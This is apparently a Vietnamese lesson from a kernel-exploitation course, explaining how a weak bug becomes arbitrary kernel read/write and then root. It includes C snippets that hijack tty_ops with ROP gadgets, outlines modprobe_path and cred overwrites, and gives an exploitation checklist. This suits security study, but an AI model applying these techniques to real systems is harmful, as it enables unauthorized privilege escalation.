

> **Prerequisites**: [[05-stack-bof-kernel|05. Stack BOF]] · [[06-heap-uaf-double-free|06. Heap UAF]] · [[07-heap-oob-read-write|07. Heap OOB]]
> **Objectives**:
> - Hiểu khái niệm primitive trong exploit development
> - Xây dựng AAR (Arbitrary Address Read) và AAW (Arbitrary Address Write) từ bug ban đầu
> - Từ AAR/AAW → RIP control theo nhiều hướng khác nhau
> - Hiểu why "primitive chaining" là core skill của kernel exploitation
>
---

## Động lực

Hầu hết kernel bugs không cho phép trực tiếp kiểm soát RIP hay leo quyền — chúng cho một primitive yếu hơn: OOB một vài bytes, UAF read một struct, race condition trên một lock. **Exploit development là quá trình biến primitive yếu thành primitive mạnh hơn**, cho đến khi đạt được mục tiêu cuối.

```text
Bug ban đầu
    ↓ (build up)
Primitive 1: Infoleak (địa chỉ kernel)
    ↓ (build up)
Primitive 2: AAR (đọc bất kỳ kernel address)
    ↓ (build up)
Primitive 3: AAW (ghi bất kỳ kernel address)
    ↓ (exploit)
Root: patch cred / overwrite modprobe_path / ROP chain
```

---

## Kiến trúc & Cơ chế

### Taxonomy — Các loại primitive

| Primitive | Ký hiệu | Ý nghĩa |
|-----------|---------|---------|
| Arbitrary Address Read | **AAR** | Đọc bất kỳ bytes tại kernel virtual address tùy chọn |
| Arbitrary Address Write | **AAW** | Ghi controlled bytes tại kernel virtual address tùy chọn |
| Relative Read | RR | Đọc tại `base + offset` — offset controlled |
| Relative Write | RW | Ghi tại `base + offset` — offset controlled |
| RIP Control | RIP | Redirect instruction pointer của kernel thread |

**Mức độ mạnh (yếu → mạnh)**:

```text
RR/RW → AAR/AAW (với KASLR bypass) → RIP Control → Root
```

### Cách build AAR từ tty_struct

Sau khi chiếm `tty_struct` qua UAF/spray, có thể fake `tty_ops` vtable để build AAR:

```c
// tty_ops.ioctl được gọi khi ioctl(tty_fd, cmd, arg)
// Prototype: int (*ioctl)(struct tty_struct *, unsigned int, unsigned long)
//   arg = arg từ userspace (64-bit, attacker-controlled)

// ROP gadget: "mov eax, dword ptr [rdx]; ret"
// → khi ioctl gọi gadget này, rdx = arg = attacker-controlled address
// → eax = *[attacker_address] → trả về userspace qua ioctl return value

// Build AAR32:
void *fake_ops[20];
fake_ops[12] = (void *)0xffffffff8118a285; // gadget: mov eax, [rdx]; ret
// Đặt fake_ops vào slot spray object
// Gọi: ioctl(spray_fd, 0, target_addr) → đọc 4 bytes tại target_addr
uint32_t result = ioctl(spray_fd, 0, target_addr);
// result = *(uint32_t*)target_addr
```

**AAR64 (đọc 8 bytes)** — cần gadget 64-bit:

```c
// Gadget: "mov rax, qword ptr [rdx]; ret"
// ioctl(spray_fd, 0, target_addr) → rax = *(uint64_t*)target_addr
// Nhưng return value của ioctl chỉ là int (32-bit)...
// → Cần trick để lấy 64-bit return value (ví dụ: lưu vào controlled memory trước)
```

### Cách build AAW từ tty_struct

```c
// tty_ops.ioctl với gadget write:
// Gadget: "mov dword ptr [rdx], ecx; ret"
// ioctl(spray_fd, val, addr) → *[addr] = val

// Build AAW32:
fake_ops[12] = (void *)0xffffffff8101083d; // gadget: mov [rdx], ecx; ret

// Gọi: ioctl(spray_fd, write_value, target_addr)
// → *(uint32_t*)target_addr = write_value
```

**Ví dụ code AAR/AAW hoàn chỉnh từ pawnyable.cafe:**

```c
// Global state
int spray_fd = -1;  // fd của tty_struct đã bị chiếm
unsigned long g_buf_addr;  // địa chỉ của g_buf (dangling pointer target)

// Gadgets (lấy từ ropper sau khi biết kernel_base)
unsigned long rop_mov_eax_rdx = kernel_base + 0x18a285;  // mov eax,[rdx]; ret
unsigned long rop_mov_rdx_ecx = kernel_base + 0x01083d;  // mov [rdx],ecx; ret

// AAR32: đọc 4 bytes tại kernel_addr
uint32_t AAR32(unsigned long kernel_addr) {
    // fake_ops[12] = AAR gadget
    // ioctl(spray_fd, 0, kernel_addr) → eax = *(uint32_t*)kernel_addr
    return ioctl(spray_fd, 0, kernel_addr);
}

// AAW32: ghi 4 bytes tại kernel_addr
void AAW32(unsigned long kernel_addr, uint32_t val) {
    // fake_ops[12] = AAW gadget
    ioctl(spray_fd, val, kernel_addr);
}
```

### RIP Control — Ba hướng chính

Sau khi có AAW, có nhiều cách kiểm soát RIP:

**Hướng 1: Overwrite function pointer trong kernel data**

```text
modprobe_path overwrite → trigger kernel module load với root
cred->uid overwrite → direct root (nếu có AAW đúng vào cred struct)
```

**Hướng 2: Fake vtable trong heap**

Đã thực hiện trong UAF lesson — fake `tty_ops` → gọi ioctl → gadget thực thi.

**Hướng 3: Stack pivot → ROP chain**

```c
// Gadget: "push rdx; xor eax, imm; pop rsp; pop rbp; ret"
// ioctl(spray_fd, 0, &rop_chain) → rsp = &rop_chain → tiếp tục ROP
```

---

## Pentest Checklist

```text
□ Xác định primitive ban đầu từ bug: OOB? UAF? Race?
□ Xác định mức độ control: offset control? size control? pointer control?
□ Build infoleak primitive trước → bypass KASLR
□ Build AAR từ infoleak: dùng để đọc thêm kernel structures
□ Build AAW từ AAR: cần biết kernel_base
□ Chọn exploitation endpoint:
    □ modprobe_path (nếu chỉ cần AAW một địa chỉ)
    □ cred patching (nếu biết địa chỉ cred struct)
    □ ROP chain (nếu cần nhiều thao tác)
□ Verify root: id; whoami
```

---

## Kết nối


